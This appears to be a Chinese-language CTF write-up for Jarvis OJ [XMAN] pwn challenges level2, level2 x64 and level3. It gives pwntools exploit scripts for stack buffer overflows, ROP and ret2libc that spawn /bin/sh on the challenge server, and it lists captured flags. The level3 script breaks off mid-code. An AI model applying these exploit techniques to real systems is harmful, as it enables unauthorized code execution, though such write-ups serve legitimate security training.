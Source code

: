 
* #### [XMAN]level2

  在read处溢出，有system函数

  查找有没有/bin/sh

  ![18](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/18.png)

  可以构造system("/bin/sh") 

  填充buf，覆盖ebp，把返回地址改为system的地址，设置system的返回地址，传参给system

  ```python
  from pwn import *
  r = remote('pwn2.jarvisoj.com',9878)
  system =p32(0x8048320)
  binsh = p32(0x804a024)
  payload = 'a'*(0x88+4) + system + p32(0) + binsh
  r.sendline(payload)
  r.interactive()
  #CTF{1759d0cbd854c54ffa886cd9df3a3d52}
  ```

   ![19](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/19.png)

* #### [XMAN]level2(x64)

   ```python
   from pwn import *
   r = remote('pwn2.jarvisoj.com', 9882)
   sys_addr = 0x4004C0
   pop_rdi_ret = 0x4006b3
   binsh = 0x600A90
   padding = 'a' * (0x80 + 0x8)
   payload = padding + p64(pop_rdi_ret) + p64(binsh) + p64(sys_addr)
   r.sendline(payload)
   r.interacctive()
   #CTF{081ecc7c8d658409eb43358dcc1cf446}
   ```

   

* ####  [XMAN]level3

   ![21](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/21.png)

     开了NX，给出libc，考虑ret2libc

     ![22](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/22.png)

     read处存在溢出

     两次溢出，第一次溢出调用write，打印出一个函数的真实地址，通过这个地址和该函数在libc中的偏移地址计算libc基址，最终得到system的真实地址，第二次溢出执行system("/bin/sh")	

   ```python
     from pwn import *
     
     r = remote("pwn2.jarvisoj.com",9879)
     elf = ELF("./level3")
     libc = ELF("./libc-2.19.so")
     write_plt = elf.plt["write"]
     libc_start_got = elf.got['__libc_start_main']
     func = elf.symbols["vulnerable_function"]
     system_libc = libc.symbols["system"]
     binsh_libc = libc.search("/bin/sh").next()
     libc_start_libc = libc.symbols["__libc_start_main"]
     padding = 'a' * (0x88 + 0x4)
     payload1 = padding + p32(write_plt) + p32(func) + p32(1)+p32(libc_start_got)+p32(4) 
     r.recvuntil("Input:\n")
   ```